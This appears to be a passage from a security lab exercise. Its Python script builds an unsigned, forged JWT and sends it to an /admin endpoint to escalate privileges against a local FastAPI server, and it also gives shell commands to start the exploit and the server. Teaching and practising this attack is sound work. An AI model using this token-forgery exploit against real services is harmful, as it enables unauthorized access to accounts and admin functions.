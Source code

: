 ```python
        "role": "...",
    }

    # Encode the header and payload as base64 URL-safe strings
    encoded_header = base64.urlsafe_b64encode(json.dumps(header).encode()).decode().strip("=")
    encoded_payload = base64.urlsafe_b64encode(json.dumps(payload).encode()).decode().strip("=")

    # Construct the token without a signature
    forged_token = "..."

    print(f"Forged JWT: {forged_token}")
    return forged_token


def use_token(endpoint, token):
    """Uses a JWT token to access an endpoint."""
    headers = {"Authorization": f"Bearer {token}"}

    response = requests.get(endpoint, headers=headers)

    try:
        print(f"Response: {response.status_code} - {response.json()}")
    except ValueError:
        print(f"Response: {response.status_code} - {response.text}")


if __name__ == "__main__":
    print("Task 1: Obtain a Valid JWT")
    username = "user1"
    password = "password123"
    valid_token = get_valid_token(username, password)

    # Uncomment to run Task 2

    # print("\nTask 2: Forge a JWT to Escalate Privileges")
    # admin_endpoint = f"{BASE_URL}/admin"
    # forged_token = forge_token()
    # use_token(admin_endpoint, forged_token)
```

### Common Commands

In the following, we list some common commands for this exercise.

```bash
# Start the exploit script
python /path/to/exploit.py

# Start the server for the API
fastapi dev /path/to/server.py

# To stop the server press CTRL+C to quit
```
